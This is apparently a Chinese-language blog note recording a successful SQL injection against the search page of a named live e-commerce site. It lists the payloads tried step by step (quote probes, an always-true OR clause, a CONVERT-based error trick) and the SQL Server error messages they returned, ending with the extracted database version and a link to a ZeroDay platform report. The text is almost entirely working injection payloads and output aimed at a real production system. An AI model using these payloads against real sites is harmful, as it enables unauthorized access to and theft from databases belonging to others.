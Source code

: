 ```yaml
---
title: SQL Injection wowcard Success
description: SQL Injection wowcard Success
last_update:
  date: "2025-08-21T08:00:00+08:00"
---
```


## 前言

- 目標: `https://shop.wowcard.com.tw/wsearch.asp`
- 使用 POST + FormData，不需要煩惱 URL Encode + Decode 的問題

## 測試過程

1. `'`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

遺漏字元字串 ') Order By 上刊日期 desc' 後面的引號。

/Scripts/DataList_WOWdetail.js, 行318
```

2. `123'`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

3. `%123'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%%123' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

4. `123'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '%123' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

5. `123'))--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 ')' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

6. `123')--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 ')' 之處的語法不正確。

/Html_Inc/Search_main_kind.asp, 行18
```

7. `123')'--123`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e14'

接近 '--123%' 之處的語法不正確。

/Scripts/DataList_WOWdetail.js, 行318
```

8. `' OR '1' = '1`

成功搜尋到

9. `' AND '1' = '1`

成功搜尋到 0 筆資料，推測應該是我們還在某個 `'` 或是 `)` 裡面，所以註解沒有生效

10. `' AND 1 = CONVERT(int,@@version) OR '1' = '1`

```
Microsoft OLE DB Provider for SQL Server 錯誤 '80040e07'

將 nvarchar 值 'Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64) Sep 3 2014 04:11:34 Copyright (c) 1988-2008 Microsoft Corporation Enterprise Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1) ' 轉換成資料類型 int 時，轉換失敗。

/Scripts/DataList_WOWdetail.js, 行318
```

成功提取到 DB 版本號

```
Microsoft SQL Server 2008 (SP4) - 10.0.6000.29 (X64) Sep 3 2014 04:11:34 Copyright (c) 1988-2008 Microsoft Corporation Enterprise Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1)
```

11. 接下來請參考 [ZD-2025-01031](https://zeroday.hitcon.org/vulnerability/ZD-2025-01031)
